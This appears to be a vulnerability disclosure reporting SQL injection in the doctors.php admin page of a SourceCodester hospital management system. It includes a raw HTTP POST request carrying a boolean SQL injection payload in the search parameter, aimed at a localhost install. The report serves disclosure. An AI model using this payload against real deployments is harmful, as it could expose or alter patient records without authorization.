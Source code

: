 **BUG_Author:**

Rone

**Vendor:**

[SourceCodester](https://vuldb.com/?vendor.sourcecodester)

**Software:**

[Free Hospital Management System for Small Practices | SourceCodester](https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html)

**Vulnerability File:**

/vm/admin/doctors.php

**Description:**

Attackers can use SQL injection to bypass the authentication and authorization mechanisms of web applications and retrieve the content of the entire database. SQLi can also be used to add, modify, and delete records in a database, thereby affecting data integrity. In appropriate cases, attackers can also use SQLi to execute operating system commands, which can then be used to launch further attacks.

```
POST /VaidyaMitra/vm/admin/doctors.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://127.0.0.1/VaidyaMitra/vm/admin/index.php
Cookie: PHPSESSID=n0c7sjh2imuq8hk5htgeb3e795
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 55
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

search=-1' OR 3*2*1=6 and 1=1 --+
```

![image-20231015172710460](Hospital Management System_SQL injection.assets/image-20231015172710460.png)

![image-20231015172657173](Hospital Management System_SQL injection.assets/image-20231015172657173.png)

![image-20231015174534821](Hospital Management System_SQL injection.assets/image-20231015174534821.png)















